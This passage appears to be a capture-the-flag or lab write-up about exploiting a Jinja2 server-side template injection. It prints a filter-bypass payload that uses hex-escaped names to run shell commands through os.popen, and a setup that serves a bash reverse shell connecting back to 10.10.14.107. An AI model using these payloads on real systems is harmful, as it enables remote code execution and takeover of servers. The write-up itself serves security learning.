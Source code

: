 I tried a filter bypass payload that uses escaped ASCII codes from **payloadallthethings**, and it worked

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution

- Payload 

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![](/assets/obsidian/c3b5577540b18d1814de282ecc2a4517.png)

Setup webserver that hosts reverse shell payload

```bash
mkdir -p www&&cd www
echo '/bin/bash -i >& /dev/tcp/10.10.14.107/1111 0>&1' > index.html
python -m http.server 80
```
